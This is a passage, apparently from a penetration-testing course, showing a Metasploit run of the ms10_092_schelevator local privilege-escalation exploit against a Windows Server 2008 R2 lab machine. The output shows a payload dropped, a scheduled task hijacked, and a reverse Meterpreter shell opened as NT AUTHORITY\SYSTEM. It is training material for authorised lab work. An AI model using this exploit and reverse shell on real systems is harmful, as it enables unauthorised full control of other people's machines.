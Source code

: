 #### Receiving Elevated Reverse Shell

If all goes to plan, once we type `exploit`, we will receive a new Meterpreter shell as the `NT AUTHORITY\SYSTEM` account and can move on to perform any necessary post-exploitation.

Windows Server

```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4443
[*] Preparing payload at C:\Windows\TEMP\uQEcovJYYHhC.exe
[*] Creating task: isqR4gw3RlxnplB
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\isqR4gw3RlxnplB...
[*] Original CRC32: 0x89b06d1a
[*] Final CRC32: 0x89b06d1a
[*] Writing our modified content back...
[*] Validating task: isqR4gw3RlxnplB
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] isqR4gw3RlxnplB                          6/1/2021 1:04:00 PM    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.43.15
[*] SUCCESS: Attempted to run the scheduled task "isqR4gw3RlxnplB".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4443 -> 10.129.43.15:49634) at 2021-05-12 16:04:34 -0400
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" was successfully deleted.
[*] SCHELEVATOR


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-2K8
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
```

---